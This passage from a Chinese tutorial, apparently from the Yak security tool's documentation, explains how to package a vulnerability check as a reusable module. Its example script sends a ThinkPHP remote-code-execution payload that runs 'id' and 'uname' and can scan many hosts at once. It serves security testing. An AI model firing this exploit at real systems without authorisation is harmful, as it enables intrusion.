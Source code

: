 :::

### 其次我们解决批量调用的问题，函数化+模块化

函数/模块化我们需要用到的核心功能是 [Yak 中的 `import` 函数](/docs/yak-basic/cap6-4-modules) 

根据我们的 `import` 的全局函数，我们可以把我们的代码，封装成为一个可供别的脚本调用的函数，使用 `cli` 来接受用户输入的参数。

```go title="thinkphp-poc.yak"
def poc(host, port) {
   fReq, err := fuzz.HTTPRequest(`
   POST /index.php?s=captcha HTTP/1.1
   Host: localhost:8080
   User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
   Connection: close
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 72
   
   _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
   `)
   if err != nil {
       log.error(err)
       return false
   }
   
   rsp, err := fReq.FuzzHTTPHeader("Host", sprintf("{{net(%v)}}:{{port(%v)}}", host, port)).FuzzPostParams("server[REQUEST_METHOD]", ["id", "uname"]).Exec()
   if err != nil {
      log.error(err)
      return false
   }
   
   // match result
   // 
   //  DO Something
   return true
}

if YAK_MAIN {
   poc(cli.String("target"), cli.String("port"))
}
```

我们通过上述简单的处理，就可以做到封装一个 PoC，任何 Yak 脚本都可以通过 `import("thinkphp-poc", "poc")` 来导入执行函数，然后直接执行上述函数。

同时由于我们使用 `fuzz` 模块去模糊化了 `Host` 我们可以很轻易实现针对多个目标同时进行扫描。

## 结语

我们希望编写 Yak PoC 是一个包容的过程，我们不会限制用户的格式，也不需要用户自己去做复杂的依赖管理，遵循 Yak 的语法即可。

总之 Happy Game!